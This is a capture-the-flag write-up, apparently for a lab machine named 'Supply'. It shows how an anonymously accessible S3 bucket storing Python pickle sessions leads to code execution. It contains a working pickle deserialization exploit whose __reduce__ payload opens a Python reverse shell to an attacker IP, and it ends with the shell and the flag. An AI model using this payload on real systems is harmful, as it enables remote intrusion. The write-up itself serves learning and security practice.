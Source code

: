 ## Supply

```bash
$ nmap -sS -sV -Pn -p- -T5 -n 10.129.173.190

Nmap scan report for 10.129.173.190
Host is up (0.022s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

For this challenge, we were presented a login page, and a feature to sign in as guest on the web application:

![Login page](../img/supply_1.png)

By browsing to the home page of the web application, we noticed some assets were not loading as it was using a custom domain name:

```bash
$ curl http://10.129.173.190/ -s | grep 's3.' -C3
  <title>Project Management Portal</title>
  
  
  <link rel='stylesheet' href='http://s3.supply.htb/assets/css/bootstrap.min.css'>
  <script src="http://s3.supply.htb/assets/js/stopExecutionOnTimeout-8216c69d01441f36c0ea791ae2d4469f0f8ff5326f00ae2d00e4bb7d20e24edb.js"></script>
<style>
body {
  background-color: black;
```

We checked what was hosted on the same machine but for the assets' virtual host `s3.supply.htb`:

```bash
$ curl http://10.129.173.190 -H "Host: s3.supply.htb" -v
*   Trying 10.129.173.190:80...
* Connected to 10.129.173.190 (10.129.173.190) port 80 (#0)
> GET / HTTP/1.1
> Host: s3.supply.htb
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 404 
< Server: hypercorn-h11
< content-type: text/html; charset=utf-8
< content-length: 21
[...]
< 
* Connection #0 to host 10.129.173.190 left intact
{"status": "running"}
```

We saw it was a self-hosted AWS platform as it was for the Cloud challenge `Theta`. We then listed all the enabled features:

```bash
$ curl http://10.129.173.190/health -H "Host: s3.supply.htb" -v
*   Trying 10.129.173.190:80...
* Connected to 10.129.173.190 (10.129.173.190) port 80 (#0)
> GET /health HTTP/1.1
> Host: s3.supply.htb
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 
< Server: hypercorn-h11
[...]
< 
* Connection #0 to host 10.129.173.190 left intact
{"services": {"s3": "running"}, "features": {"persistence": "initialized", "initScripts": "initialized"}}
```

We then checked if an anonymous access was granted to the `s3` bucket:

To do so, we added a line to our `/etc/hosts` file for the virtual host `s3.supply.htb` and we used the `AWS` cli:

```bash
$ aws configure

AWS Access Key ID [None]: a
AWS Secret Access Key [None]: a
Default region name [None]: a
Default output format [None]: json

$ aws s3 --endpoint-url http://s3.supply.htb ls

2021-07-26 23:47:41 assets
```

Once we noticed we could list the hosted files, we downloaded all the files by using the `sync` command:

```bash
$ aws s3 --endpoint-url http://s3.supply.htb sync s3://assets .
download: s3://assets/js/stopExecutionOnTimeout-8216c69d01441f36c0ea791ae2d4469f0f8ff5326f00ae2d00e4bb7d20e24edb.js to js/stopExecutionOnTimeout-8216c69d01441f36c0ea791ae2d4469f0f8ff5326f00ae2d00e4bb7d20e24edb.js
download: s3://assets/vendor/autoload.php to vendor/autoload.php  
[...]
download: s3://assets/vendor/composer/platform_check.php to vendor/composer/platform_check.php
download: s3://assets/vendor/composer/autoload_psr4.php to vendor/composer/autoload_psr4.php
download: s3://assets/css/bootstrap.min.css to css/bootstrap.min.css 
download: s3://assets/vendor/composer/autoload_static.php to vendor/composer/autoload_static.php
download: s3://assets/vendor/composer/installed.json to vendor/composer/installed.json
[...]
```

Apart from the web assets (minified css and javascript files), we saw nothing that was used by the web application.

By playing a bit with the login feature of the web application, we noticed a new folder was created on the bucket and that sessions were stored on the `s3` bucket:

```bash
$ aws s3 --endpoint-url http://s3.supply.htb ls assets/
                           PRE css/
                           PRE js/
                           PRE sessions/
                           PRE vendor/
                           
$ aws s3 --endpoint-url http://s3.supply.htb sync s3://assets .
download: s3://assets/sessions/c32d3081-d9ee-4c0b-9f05-fe402cbf1138 to sessions/c32d3081-d9ee-4c0b-9f05-fe402cbf1138
```

```bash
$ xxd c32d3081-d9ee-4c0b-9f05-fe402cbf1138
00000000: 8004 9525 0000 0000 0000 007d 9428 8c08  ...%.......}.(..
00000010: 7573 6572 6e61 6d65 948c 0567 7565 7374  username...guest
00000020: 948c 0870 6173 7377 6f72 6494 6802 752e  ...password.h.u.
```

The sessions content looked-like serialized data. We then tried to decode them using [pickletools](https://docs.python.org/3/library/pickletools.html):

```bash
$ python3 -m pickletools c32d3081-d9ee-4c0b-9f05-fe402cbf1138 
    0: \x80 PROTO      4
    2: \x95 FRAME      37
   11: }    EMPTY_DICT
   12: \x94 MEMOIZE    (as 0)
   13: (    MARK
   14: \x8c     SHORT_BINUNICODE 'username'
   24: \x94     MEMOIZE    (as 1)
   25: \x8c     SHORT_BINUNICODE 'guest'
   32: \x94     MEMOIZE    (as 2)
   33: \x8c     SHORT_BINUNICODE 'password'
   43: \x94     MEMOIZE    (as 3)
   44: h        BINGET     2
   46: u        SETITEMS   (MARK at 13)
   47: .    STOP
highest protocol among opcodes = 4
```

From there, we replaced the serialized data with a reduced function that would execute a reverse shell during the deserialization process:

```bash
$ cat forge_session.py

import pickle
import base64
import os

class RevShell:
    def __reduce__(self):
        cmd = ('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.65", 9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")')
        return exec, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dump(RevShell(), protocol=2, file=open('fd9db610-e957-4a8e-a877-a1bae508805c', 'wb'))
```

Then, we uploaded the new session file to the bucket:

```bash
$ python3 forge_session.py 

$ aws s3 --endpoint-url http://s3.supply.htb cp fd9db610-e957-4a8e-a877-a1bae508805c s3://assets/sessions/fd9db610-e957-4a8e-a877-a1bae508805c
upload: ./fd9db610-e957-4a8e-a877-a1bae508805c to s3://assets/sessions/fd9db610-e957-4a8e-a877-a1bae508805c
```

Finally, we triggered the Python deserialize code by requesting the `/home` page of the web application and by specifying our malicious session id:

```bash
GET /home HTTP/1.1
Host: 10.129.173.190
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=fd9db610-e957-4a8e-a877-a1bae508805c
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


HTTP/1.1 302 FOUND
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 208
Location: http://10.129.173.190/
Connection: close
Content-Type: text/html; charset=utf-8

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/">/</a>. If not click the link.
```

Once the session was deserialized, we received a connect-back from the Python reverse shell:

```bash
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.65] from (UNKNOWN) [10.129.173.190] 38980
www-data@supply:/$ id     	
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@supply:/$ cat /opt/flag.txt
cat /opt/flag.txt
HTB{0p3n_aws_s3ssion_f1l3_st0rag3==rc3_pwn4g3}
```

